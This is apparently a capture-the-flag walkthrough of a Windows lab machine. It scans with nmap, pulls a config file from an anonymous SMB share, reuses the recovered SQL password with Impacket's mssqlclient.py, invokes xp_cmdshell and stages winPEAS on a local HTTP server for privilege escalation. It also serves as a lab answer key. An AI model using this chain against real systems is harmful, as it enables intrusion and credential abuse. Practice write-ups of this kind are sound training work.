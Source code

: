 Which TCP port is hosting a database server? `1433`.
```bash
nmap -T5 -sC -sV -p- --min-rate=1000 10.129.78.109 > scan.txt
```

What is the name of the non-Administrative share available over SMB? `backups`.
```bash
smbclient -L 10.129.78.109
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
smbclient -N //10.129.78.109/backups
smb: \> get prod.dtsConfig
```

What is the password identified in the file on the SMB share? `M3g4c0rp123`.

What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server? `mssqlclient.py`.

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? `xp_cmdshell`.


What script can be used in order to search possible paths to escalate privileges on Windows hosts? `winpeas`.

We download `winPEASx64.exe` script from [GitHub](https://github.com/carlospolop/PEASS-ng/releases/) and establish a simple http server with `python` to upload the script to the victim machine. In this case, my `tun0` IP address is `10.10.15.125`.
```bash
mkdir http_server
mv winPEASx64.exe http_server
cd http_server
sudo python3 -m http.server 80
```

The command below returns an error
```bash
mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.78.109
[-] [('SSL routines', 'state_machine', 'internal error')]
```

After searching a little, we see that this is a known issue with a known solution:

* You gotta find the lib files for your impacket `/home/user/.local/lib/python3.11/site-packages/impacket/`.

* Edit your `tds.py`. Find both lines defining the `ctx`:
```python
ctx = SSL.Context(SSL.TLSv1_METHOD)
```

* Change it to

```python
ctx = SSL.Context(SSL.TLSv1_2_METHOD)
```
